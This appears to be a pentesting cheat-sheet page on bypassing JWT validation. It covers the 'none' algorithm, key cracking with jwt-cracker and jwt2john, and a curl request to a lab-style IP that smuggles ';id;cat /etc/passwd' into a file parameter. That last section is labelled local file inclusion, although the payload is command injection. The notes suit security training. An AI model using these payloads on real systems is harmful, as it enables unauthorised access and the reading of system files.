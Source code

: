 # JWT Tokens

The three main ways to bypass JWT validation:

* Using the `none` alg
* Hijacking another user
* Brute forcing the key.

### Decode the JWT token

{% embed url="https://jwt.io" %}

### Crack JWT tokens

{% embed url="https://lmammino.github.io/jwt-cracker" %}

* {% code overflow="wrap" %}
  ```bash
  jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
  ```
  {% endcode %}

### Jwt2john

&#x20;jwt2john.py JWT

&#x20;Convert a JWT to a format John the Ripper can understand.

&#x20;John the Ripper now supports the JWT format, so converting the token is no longer necessary. John has a size limit on the data it will take. If you run into this limit, consider changing SALT\_LIMBS in the source code.

### Local file inclusion

```
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWUzNGRkOWJmNTYxMjA0NjIyMGQxYzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imxlb25AbGVvbi5jb20iLCJpYXQiOjE2NDIyODcxMDJ9.5MlYl8Eubb0sci3Jt3cuacNSki36aGeUoHNrMWXeBXE' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
